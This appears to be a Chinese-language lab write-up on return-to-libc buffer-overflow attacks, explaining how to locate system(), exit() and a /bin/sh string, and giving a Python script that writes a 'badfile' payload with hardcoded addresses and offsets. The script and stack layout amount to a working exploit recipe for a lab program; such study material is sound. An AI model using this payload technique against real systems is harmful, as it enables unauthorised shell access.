




# 发起return-to-libc攻击

## 攻击三个阶段

最终目标是跳转到system()函数，执行/bin/sh，就是执行system("/bin/sh")  
为此，划分为三个阶段：  
1、找到system()函数的地址  
2、找到字符串/bin/sh的地址  
3、system()函数的参数  

## 第一阶段


gdb中，需要使用run指令来执行目标程序，否则libc函数库不会被加载到内存中

!!! gdb指令

    -q选项是指安静模式，即不必要的信息不打印

## 第二阶段

```bash
export MYSHELL="/bin/sh"
```

```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
    char *shell = (char *)getenv("MYSHELL");
    if (shell)
    {
        printf(" Value: %s \n", shell);
        printf(" Address: %x\n", (unsigned int)shell);
    }
    return 1;
}
```


***这个地址与程序名称有关***

环境变量保存在程序的栈中，在压入栈之前，是程序名称先入栈


根据之前缓冲区溢出中程序原理图，小端序高字节保存在内存高地址，而栈的方向是从高地址往低地址，
故是函数名称先入栈。

## 第三阶段

### 问题的产生

正常的函数调用是这样的，函数被调用前，调用者把所需参数压入栈中，然后跳转到函数开头，一旦进入
被调用函数，可以通过帧指针ebp（栈底指针）获得传递参数。  
但是return-to-libc攻击中不是这样的，漏洞程序跳转到system()函数之前，需要自行将参数（即
/bin/sh的地址）放入栈中。关键在于参数应该放在栈的哪个位置。

### 分析

我们的目标是在函数返回时跳转到system函数，故返回地址填system函数的地址，那么这时system栈帧应该
如下图：

可以知道的是，system函数第一个参数肯定在%ebp + 8处，system函数返回地址即%ebp +4处放exit函数
的地址，可以完美终止程序

上图中vul_func函数对应我们这里foo函数。从上图3可知，栈顶ebp在system最后一个参数位置处，4的位置就是
buffer函数地址。  
如果计算出ebp到buffer的距离，就能够算出三个位置距离缓冲区起始位置的偏移值。  
system函数的地址是偏移 + 4  
exit函数的地址是偏移 + 8  
字符串/bin/sh的地址是偏移 + 12

### 实验

确定偏移实验


漏洞利用程序
```python
#!/usr/bin/python3
import sys

# 给content填上非零值
content = bytearray(0xaa for i in range(300))

a3 = 0xbfffff56     # /bin/sh的地址
content[120:124] = (a3).to_bytes(4, byteorder='little')

a2 = 0xb7e56260     # exit函数地址
content[116:120] = (a2).to_bytes(4, byteorder='little')

a1 = 0xb7e63310     # system函数地址
content[112:116] = (a1).to_bytes(4, byteorder='little')

file = open("badfile", "wb")
file.write(content)
file.close()
```


!!! 实验注意点

    上述实验开始没注意到函数名称的长度必须和stack一样，故后来取名env55攻击成功。  
    ubuntu 16.04以上需要sudo ln -sf /bin/zsh /bin/sh
    
!!! 返回导向编程

    简称ROP，return-to-libc攻击不一定需要返回到一个已有函数，思想是巧妙地把内存中的一些小指令序列串联，
    这些指令并不在一起，但最后一个指令都是return，通过设置都会返回到下一个指令地址。